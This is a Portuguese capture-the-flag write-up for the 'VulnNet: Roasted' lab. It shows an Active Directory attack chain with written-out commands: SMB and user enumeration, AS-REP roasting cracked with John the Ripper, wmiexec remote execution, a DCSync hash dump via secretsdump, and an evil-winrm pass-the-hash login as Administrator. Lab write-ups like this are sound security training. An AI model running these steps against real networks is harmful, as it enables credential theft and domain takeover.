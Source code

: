 # _**VulnNet: Roasted CTF**_
![](net.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```
![](scan_nmap.jpg)

Informações importantes que podemos extrair deste scan
* Domain: vulnnet-rst.local0.
* Service Info: Host: WIN-2BO8M1OE1M1

Temos também um serviço SMB do qual podemos tentar enumerar com ```smbclient -L \\\\[ip_address]```  

![](smb_client.jpg)

Isso é interessante, quando a máquina tem SMB aberto e IPC$ aberto com acesso mínimo de leitura, ela fica vulnerável a outras enumerações de usuários
Primeiro, vamos executar o  coamndo abaixo para verificar permissões  
> ```bash
> smbmap -u anonymous -H [ip_address]
> ```
![](smbmap_return.jpg)

Vamos também buscar por _usernames_ com [lookupsid](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py)
> ```bash
> lookupsid.py anonymous@[ip_address] | tee usernames
> ```
![](lookup.jpg)

Parece que temos alguns usuários  
Vamos limpar com ```cat usernames | grep SidTypeUser  |gawk -F '\' '{ print $2 }' |gawk -F ' ' '{ print $1 }' | tee usernames```  
Podemos usar GetNPUsers.py do impacket, que pode verificar se há nomes de usuários válidos e se eles não exigem a pré-autenticação Kerberos (PREAUTH) habilitada
> ```bash
> GetNPUsers.py vulnnet-rst.local/ -usersfile usernames -no-pass -dc-ip [ip_address]
> ```
![](get_np_user.jpg)

Parece que temos uma hash  
Vamos utilizar <mark>John the Ripper</mark> para tentar quebrar  
Primeiro, copiamos para um arquivo _.txt_  
Em seguida, usamos o comando ```john --wordlist=/usr/share/wordlist/rockyou.txt [filename.txt]```  

![](broken_hash.jpg)

Encontramos a senha para **t-skid**  
Agora, vamos realizar login via SMB com ```smbclient  -U t-skid \\\\[ip_address]\\NETLOGON```  
Procurando por arquivos, encontramos um, _ResetPassword.vbs_  
Puxamos para nosso computador e tentamos ler com ```cat```  
Após um pouco de investigação, conseguimos encontrar credenciais!  

![](creds.jpg)

Vamos utilizar wmiexec.py  
Ele é um script do Impacket que permite executar comandos remotamente em um host Windows utilizando WMI  
> ```bash
> wmiexec.py vulnnet-rst.local/a-whitehat@[ip_address]
> ```
![](login.jpg)

Navegando pelos diretórios, conseguimos encontrar nossa primeira flag em uma pasta no 'Desktop'  
Agora, para escalarmos privilégios, vamos primeiro executar o comando ```whoami /groups```  

![](groups.jpg)

O usuário a-whithat é um administrador de domínio, podemos executar um ataque DCSync para obter o hash do administrador e fazer login via EvilWinRM  
Primeir, vamos executar o comando abaixo para obter hashes  
> ```bash
> secretsdump.py a-whitehat@[ip_address]
> ```
![](hash_dump.jpg)

Conseguimos hash de administrador!  
Vamos utilizar o seguinte comando para realizar login  
> ```bash
> evil-winrm -i [ip_address] -u Administrator -H [admin_hash]
> ```
![](final_login.jgp)

A flag pode ser obtida no _desktop_ do administrador!
